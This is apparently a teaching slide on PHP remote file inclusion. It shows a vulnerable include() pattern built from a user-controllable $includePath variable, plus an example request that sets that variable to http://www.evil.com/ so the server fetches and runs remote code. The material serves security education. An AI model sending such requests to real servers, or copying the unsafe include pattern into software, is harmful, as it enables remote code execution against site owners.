

# File Inclusion in PHP
The allow_url_fopen directive allows URLs to be used when including files with include() and require()
If user input is used to create the name of the file to be open then a remote attacker can execute arbitrary code
//mainapp.php
$includePath=‘/includes/’; // this var will be visible
                           //in the included file
include($includePath . ‘library.php’);
...

//library.php
...
include($includePath . ‘math.php’);
...
GET /includes/library.php?includePath=http://www.evil.com/